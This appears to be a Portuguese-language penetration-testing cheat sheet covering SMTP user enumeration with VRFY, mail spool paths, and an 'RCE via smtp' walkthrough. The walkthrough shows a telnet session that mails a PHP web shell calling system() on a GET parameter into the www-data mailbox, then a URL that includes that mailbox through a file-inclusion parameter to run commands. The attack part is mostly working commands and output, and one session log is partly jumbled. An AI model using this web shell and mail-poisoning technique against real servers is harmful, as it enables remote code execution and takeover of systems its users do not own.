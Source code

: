exemplo de resposta quando o usuário não existe
```
EHLO jhayson
550 5.1.1 User unknown

VRFY asdasasdasdasdas
550 5.1.1 User unknown

VRFY www-kasdjas
550 5.1.1 <www-dasdasda>: Recipient address rejected: User unknown in local recipient table
```


obs: podemos enviar um email para um determinador usuário para enumerar se o usuário em questão existe ou não. De acordo com a resposta recebida podemos definir se o usuário existe ou não.

path do postfix `/var/spool/mail/www-data`


diretorios de email smtp
```
/var/mail/USER
/var/spool/mail/USER
/var/mail/www-data
/var/spool/mail/www-data
```

**RCE via smtp**
```
telnet 172.30.0.128 25
Trying 172.30.0.128...
Connected to 172.30.0.128.
Escape character is '^]'.
MAIL FROM:romio
RCPT220 ubuntu.bloi.com.br ESMTP Postfix (Ubuntu)
 250 2.1.0 Ok
RCPT TO:www-data@ubuntu.local   
502 5.5.2 Error: command not recognized
MAIL FROM:romio
503 5.5.1 Error: nested MAIL command
RCPT TO:www-data@ubuntu.local
250 2.1.5 Ok
data 
354 End data with <CR><LF>.<CR><LF>
<?php echo system($_GET['hack']);?>
.
250 2.0.0 Ok: queued as 23781C007F


# requisição
http://172.30.0.128/supportdesk/index.php?page=/var/mail/www-data&hack=whoami

```


# Enumerando Dispositivos de Rede
porta default: 23

